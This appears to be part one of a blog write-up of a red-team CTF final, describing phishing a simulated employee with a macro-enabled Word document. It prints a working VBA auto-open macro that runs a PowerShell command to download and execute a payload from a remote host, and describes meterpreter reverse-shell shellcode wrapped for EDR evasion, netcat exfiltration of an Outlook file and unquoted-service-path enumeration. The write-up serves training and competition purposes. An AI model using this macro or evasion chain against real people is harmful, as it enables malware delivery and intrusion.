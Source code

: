 ```yaml
---
title: "ABC CTF Challenge"
date: 2021-08-28T03:09:07-03:00
draft: false
cover: "images/abcctf/abc.png"
blogs: ["CTF_Challenges"]
---
```


## ABC CyberHackathon RedTeam CTF

[![CY3ER-R4T](https://cyberrat.medium.com/)
## **INTRODUCTION**

My team RedTeamNG recently came first in the The American Business Council Cybersecurity Hackathon 2021 organized by ctf.ng and major sponsors bothering from American Business Council,Microsoft,AWS, Cisco, Comercio, HP, IBM and others

This write up would be focused only on the finals and specifically the RedTeam challenges running through the methodology used to tackling it,  
other post by my team mate [Muzec](https://muzec0318.github.io/posts/abcctf.html)would be covering the Web Challenges.

## **SCENARIO**

The scenario we are presented with by the organizers is that of an Fat Fingered individual that unconsciously opens every email and attachment he gets in he’s corporate email : [obiora\_nurudeen@ctf.ng](http://mailto:obiora_nurudeen@ctf.ng)

{{< figure src="/images/abcctf/scenario.png">}}

Armed with just he’s name Nurudeen Obiora, the email above and the knowledge of the targets low awareness in basic email security,  
we thought of emulating a strategy we recently used at the DEFCON 29 RedTeam CTF by sending the target an email with the reverse shell payload attached.

Now here is where the problem begins, as with almost every field: There is a race, race between Good and Bad, Positive and Negative  
our intentions are of no good so every mechanism of security is against us which is a “replica” of a real life situation

**1st attempt:** _Sending an msfvenom payload + gmail_  
Using msfvenom we created a windows reverse shell payload


{{< figure src="/images/abcctf/msfvenom.gif">}}

Attempting to send it to the target using swaks  
swaks : SWiss Army Knife Smtp

we are immediately flagged as malicious by Gmails Egress Malware Scanner

{{< figure src="/images/abcctf/egress-gmail.gif">}}

**2st attempts:** We resulted into trying several empire powershell payload and bypasses, Persian Hydra Xor encryption with Custom keys, EgeBalci/sgn Shikata\_ga\_nai encoder, All to no avail

{{< figure src="/images/abcctf/head-boom.gif">}}

**Final attempt:** After numerous swift and failed attempt, we remembered Matthew Eidelberg talk at SourceZero Con : Remaining Invisible in the Age of EDR, a talk which showcase the ability to bypass defenses with a term called DLL unhooking using the ScareCrow Binary

In short, we can generate some raw shellcode from the software of our choice (Cobalt Strike, Metasploit, PoshC2, etc) and pass it to the Scarecrow to get a loader back that will implement some common EDR evasion techniques.

we decide to create a create a `windows/x64/meterpreter\reverse\tcp` shellcode using msfvenom \[msfvenom shellcode is a pain, its crappy and might be unstable at times\]
{{< figure src="/images/abcctf/msfvenom.gif">}}

then pass the raw shellcode to the scarecrow binary along with a random domain name for a cloned signed certificate

{{< figure src="/images/abcctf/scarecrow.png">}}

we then created a meterpreter listener using the connection variable of the shellcode as options: “would have preferred Cobalt-strike but its for the BigBoys like Rotimi:)”

## **DELIVERY**

The output of ScareCrow is an obfuscated .exe payload, being at the third stage of the “cyber attack cycle” which is delivery  
we somehow need to get the payload the victim machine and “run” it

We decided to use the old aged Microsoft Office Document with macro with the .docm extension,  
the function of the macro was to run a powershell one-liner that downloads the payload \[Powerpnt.exe\] binary hosted on our machine, store it in C:\\windows\\temp\\ and then run it

> Sub Document\_Open()  
> MyMacro  
> End Sub
> 
> Sub AutoOpen()  
> MyMacro  
> End Sub
> 
> Sub MyMacro()  
> Dim str As String  
> str = “powershell iwr -uri [http://x.x.x.x/](http://20.87.43.15/OutLook.exe)Powerpnt.exe -o c:\\windows\\temp\\Powerpnt.exe; c:\\windows\\temp\\Powerpnt.exe”  
> GetObject**(**“winmgmts:”**)**.Get**(**“Win32\_Process”**)**.Create str, Null, Null, pid  
> Shell str, vbHide  
> End Sub


{{< figure src="/images/abcctf/macro.png">}}

## **WEAPONIZATION**

Weaponized the final email and sent the .docm to the target by gmail

{{< figure src="/images/abcctf/weapon-email.png">}} 

Tick! tock! Tick! tock!  
Itchy finger Nurudeen opens the malicious document with the payload sending us a meterpreter session on our VPS \[wish it was cobalt strike, somebody buy us cobalt strike already!!\]

{{< figure src="/images/abcctf/meterpreter.png">}} 

Now the hunt for flags begin, which literally means _ENUMERATION_  
checking to see what the internal IP looks like, we find the user IP address we we already solved the unintended way by checking the header of the response email`\[FLAG8\]`

{{< figure src="/images/abcctf/header.png">}}

checking the current user directory and finding `unattend.xml` that contains `\[FLAG4\]`

{{< figure src="/images/abcctf/ctf_xml.jpeg">}}

curious about what local users are on the machine just to get an idea of what movement of privilege escalation was necessary, lateral or horizontal  
we find two more flags `\[FLAG3\]` `\[FLAG5\]`


{{< figure src="/images/cybersocctf/net_user.jpeg">}}

One of the challenges goes by the name “Registry Never Lies” which immediately prompted us to query the registry table to find \[FLAG2\]

{{< figure src="/images/abcctf/regq.jpeg">}}


The what seems to be easy challenge turned to a battle “Outlook Storage 150points”, as most application data are stored in %APPDATA% we dived into it to get our hands on the loot after a quick research we figure the ost file is the microsoft outlook data bucket trying to transfer the file using the netcat binary, it failed cause the file was currently locked with the outlook process.

We proceeded to killing the process and sending the OST to our local machine with netcat

{{< figure src="/images/cybersocctf/task_kill.jpeg">}}

Converting the ost with the steller converter we find `\[FLAG1\]`

{{< figure src="/images/cybersocctf/steller.jpeg">}}

After running out of flags to find, it was time for horizontal privilege escalation

## **LATERAL PRIVILEGE ESCALATION  
Machine Misconfigured with an Unquoted Service Path**

Sometimes it is possible to escalate privileges by abusing mis-configured services. Specifically, this is possible if path to the service binary is not wrapped in quotes and there are spaces in the path..  
If you are using a long file name that contains a space, use quoted strings to indicate where the file name ends and the arguments begin; otherwise, the file name is ambiguous.

For example, consider the string “c:\\program files\\safe software\\enjoy.exe”. This string can be interpreted in a number of ways.  
The system tries to interpret the possibilities in the following order:

**c:\\program.exe**  
**c:\\program files\\safe.exe**  
**c:\\program files\\safe software\\enjoy.exe**

if any of the directory along the path is writable and said service is running with system privileges then this misconfiguration is easily exploitable

we can enumerate and find Unquoted Service Path by using the wmic command `wmic service get name,pathname`

we can aswell check to see if the service is running with system privileges still by using wmic `wmic service get pathname,startname`


{{< figure src="/images/cybersocctf/servicepath.png">}}

> **END OF PART ONE**
>#### The difference between a noob and a hacker is that a hacker has failed more than a noob has ever tried

  {{ if .Site.Params.social.share.linkedin }}
      <li>
        <a href="https://www.linkedin.com/shareArticle?mini=true&amp;url={{ $url }}&amp;source={{ $url }}&amp;title={{ $title }}&amp;summary={{ $title }}" target="_blank" rel="noopener" aria-label="Share on LinkedIn" class="share-btn linkedin">
          {{ partial "svg/linkedin.svg" (dict "class" "widget-social__link-icon") }}
            <p>LinkedIn</p>
          </a>
      </li>
      {{ end }}

